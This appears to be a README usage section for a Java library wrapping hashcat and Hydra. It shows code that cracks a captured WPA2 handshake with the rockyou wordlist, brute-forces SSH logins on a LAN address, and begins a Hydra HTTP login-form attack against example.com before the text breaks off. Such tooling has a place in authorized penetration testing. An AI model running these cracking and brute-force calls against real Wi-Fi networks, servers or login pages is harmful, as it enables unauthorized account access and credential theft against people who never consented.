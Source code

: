 
## 🎯 Usage Examples

### HashcatAdapter

```java
@Autowired
private HashcatAdapter hashcat;

// Check GPU availability
hashcat.getGPUInfo().thenAccept(gpuInfo -> {
    System.out.println("GPU: " + gpuInfo.primaryDevice());
    System.out.println("Devices: " + gpuInfo.deviceCount());
});

// Crack WPA2 handshake
hashcat.crackWPA(
    "/tmp/handshake.hc22000",
    "/usr/share/wordlists/rockyou.txt",
    progress -> {
        System.out.printf("Progress: %.2f%% Speed: %s\n", 
            progress.getPercentage(), 
            progress.getSpeedString());
    }
).thenAccept(result -> {
    if (result.isSuccess()) {
        System.out.println("Passwords found: " + result.getPasswords());
    }
});

// Benchmark GPU
hashcat.benchmark(HashcatAdapter.WPA_WPA2).thenAccept(bench -> {
    System.out.printf("Speed: %d H/s\n", bench.speedHashesPerSecond());
});
```

### HydraAdapter

```java
@Autowired
private HydraAdapter hydra;

// Bruteforce SSH
hydra.bruteforceSSH(
    "192.168.1.1",
    22,
    "/usr/share/wordlists/users.txt",
    "/usr/share/wordlists/passwords.txt",
    progress -> {
        if (progress.isFound()) {
            System.out.println("Found: " + progress.getMessage());
        }
    }
).thenAccept(result -> {
    result.getCredentials().forEach(cred -> {
        System.out.printf("✓ %s:%s\n", cred.getUsername(), cred.getPassword());
    });
});

// Bruteforce HTTP form
hydra.bruteforceHTTPForm(
    "example.com",
    "/login",
    "username=^USER^&password=^PASS^",
```